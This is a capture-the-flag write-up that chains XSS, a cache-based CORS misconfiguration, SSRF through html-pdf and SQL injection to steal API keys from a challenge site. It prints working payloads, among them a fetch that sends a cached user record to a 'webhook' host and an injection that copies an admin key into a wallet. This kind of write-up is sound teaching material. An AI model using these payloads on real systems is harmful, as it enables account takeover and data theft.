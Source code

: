 # Where is my cash - 2 Solves

## Description

We got first blood on this challenge. I'll just write about solution steps.

## Part 1 - XSS

There was XSS in `api_key` parameter in homepage, Our input would directly goes to javascript variable.

`const API_TOKEN = "INPUT";`

So we could redirect admin to our controlled website with following payload.

`?api_key="-(document.location='ourwebsite')-"`

## Part 2 - Misconfigured CORS

There was option in website that would let us to provide link from challenge's website and admin would visit it.

the `Access-Control-Allow-Origin` was set to `*` for `/1.0/user` endpoint and the `api_key` had to be set in `x-api-token` header.

Also there was no `cache-control` or `max-age` header. So the response would be cached and we could request the cached response from any origin. we can request from cache with fetch, Just need to set `cache` option to `force-cache`. 

To achieve this, We used the following code.

`fetch("https://api.wimc.ctf.allesctf.net/1.0/user",{"cache":"force-cache"}).then((r)=>r.text()).then((r)=>fetch("webhook?a="+btoa(r)));`  

which led to

`{"code":200,"data":{"wallets":[],"user_id":"13371337-1337-1337-1337-133713371335","api_key":"980a0deeeaa5261687fb6ad2e37561","username":"local_it_staff"},"status":"success"}`

So `local_it_staff`'s `api_key` is `980a0deeeaa5261687fb6ad2e37561`


## Part 3 - ssrf in html-pdf

Also there was html to pdf functionality in website which was using [html-pdf](https://www.npmjs.com/package/html-pdf) module. 

We could give any html to the `/1.0/admin/createReport` endpoint with `html` parameter, and it would give us the pdf of our html.

we could request to api with `XMLHttpRequest`. The api was running on port `1337` so we could request to api with following html 

```
<html>
<head>
</head>
<body>
<script>
    function reqListener (){
        document.write(this.responseText);
    } 
    var oReq = new XMLHttpRequest();
    oReq.addEventListener("load", reqListener); 
    oReq.open("GET", "http://127.0.0.1:1337/");
    oReq.send("");
</script>
</body>
</html>
```
Which result to `Cannot GET /` in created pdf.

## Part 4 - Steal admin api-key with SQLI
There was `/internal/createTestWallet` endpoint which would let us to create wallet, but the query was vulnerable to SQL Injection. The query was: 

`INSERT INTO wallets VALUES ('${wallet_id}', NULL, ${balance}, 'TESTING WALLET 1234');` 

And we could control the `balance` variable. 
<br>We knew that the flag holder was `bob_h4x0r` with user_id `13371337-1337-1337-1337-133713371337`.<br>So we created another wallet with our `user_id` as owner and `bob_h4x0r`'s apikey as `wallet_note`.

We could achieve this by providing following payload as `balance`.

 `0,""),(2122424354,"OUR USERID",1333,(select api_key from general where username="bob_h4x0r" )); -- -`

After executing the query with SSRF, we could see new wallet with admin's apikey as note. After logging in with admin's apikey, we got the FLAG.

>FLAG :ALLES{th4nks f0r y0uR h31p, my fr13nd!}

Thanks to my amazing teammates and event's authors.
